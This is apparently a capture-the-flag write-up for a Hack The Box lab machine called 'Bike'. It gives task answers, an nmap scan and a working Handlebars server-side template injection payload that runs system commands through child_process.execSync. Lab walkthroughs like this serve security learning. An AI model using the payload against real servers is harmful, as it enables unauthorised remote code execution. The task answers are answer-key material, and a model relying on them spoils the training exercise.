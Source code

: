 # Bike

target: 10.129.188.40

attker: 10.10.15.248

## Task 1: What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high

`22,80`

```bash
└─$ nmap -p- --min-rate=1000 -sV 10.129.188.40
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 08:32 EST
Warning: 10.129.188.40 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.188.40
Host is up (0.38s latency).
Not shown: 65494 closed tcp ports (conn-refused), 39 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Node.js (Express middleware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.45 seconds

```

## Task 2: What software is running the service listening on the http/web port identified in the first question?

`node.js`

## Task 3: What is the name of the Web Framework according to Wappalyzer?

`Express`

## Task 4: What is the name of the vulnerability we test for by submitting {{7*7}}?

`Server side template injection`

## Task 5: What is the templating engine being used within Node.JS?

`handlebars`

![template-engine.png](./img/bike-handlebars.png)

## Task 6: What is the name of the BurpSuite tab used to encode text?

`decoder`

## Task 7: In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use?

`url`

## Task 8: When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error?

`require`

![error.png](./img/bike-error.png)

## Task 9: What variable is the name of the top-level scope in Node.JS?

`global`

## Task 10: By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user?

`root`

![poc.png](./img/bike-payload.png)

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## Task 11: Submit root flag

### References

<https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html>
